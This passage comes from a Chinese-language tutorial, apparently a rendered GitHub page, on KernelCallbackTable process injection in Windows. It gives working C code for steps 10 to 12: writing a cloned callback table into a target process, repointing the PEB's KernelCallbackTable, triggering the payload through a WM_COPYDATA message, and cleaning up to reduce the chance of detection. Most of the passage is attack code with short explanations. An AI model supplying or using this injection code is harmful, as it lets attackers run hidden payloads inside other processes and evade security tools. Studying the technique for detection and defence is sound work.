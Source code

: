     LPVOID clonedcKCT = VirtualAllocEx( hProcess, NULL, sizeof( cKCT ), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE );
    if ( !clonedcKCT || !WriteProcessMemory( hProcess, clonedcKCT, &cKCT, sizeof( cKCT ), NULL ) ) {
        printf( "[-] Failed to clone KernelCallbackTable. Error: %d\n", GetLastError() );
        return -1;
    }


**详细说明**

*   ReadProcessMemory 检索 Kernel Callback Table 结构。\_\_fnCOPYDATA 字段将重定向以指向有效负载，从而在WM\_COPYDATA消息接收时启用其执行。

### 第 10 步 - 使用修改后的表更新 PEB

更改后的内核回调表将写入 PEB，确保 Windows 引用此修改后的版本。

    if ( !WriteProcessMemory( hProcess, ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ), &clonedcKCT, sizeof( PVOID ), &bytesRead ) ) {
        printf( "[-] Failed to update PEB KernelCallbackTable. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[+] PEB KernelCallbackTable updated successfully!\n" );


**详细说明**

*   WriteProcessMemory 将修改后的表写入 PEB，使更改的回调结构处于活动状态，以准备触发有效负载。

### 第 11 步 - 触发 Payload

该代码发送一条 WM\_COPYDATA 消息，该消息激活 Kernel Callback Table 中的 \_\_fnCOPYDATA 函数，并执行有效负载。

    COPYDATASTRUCT cds;
    WCHAR msg[] = L"trigger";
    cds.dwData = 1;
    cds.cbData = ( lstrlenW( msg ) + 1 ) * sizeof( WCHAR );
    cds.lpData = msg;
    
    LRESULT result = SendMessage( hWindow, WM_COPYDATA, ( WPARAM ) hWindow, ( LPARAM ) &cds );
    if ( result == 0 && GetLastError() != 0 ) {
        printf( "[-] Failed to send message to trigger payload. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[+] Payload triggered!\n" );


### 第 12 步 - 清理

最后，释放内存分配并关闭处理，确保干净退出并最大限度地降低检测风险。

    VirtualFreeEx( hProcess, remotebuf, 0, MEM_RELEASE );
    VirtualFreeEx( hProcess, clonedcKCT, 0, MEM_RELEASE );
    CloseHandle( hProcess );
    CloseHandle( pi.hProcess );
    CloseHandle( pi.hThread );
    printf( "[+] Cleanup completed successfully.\n" );

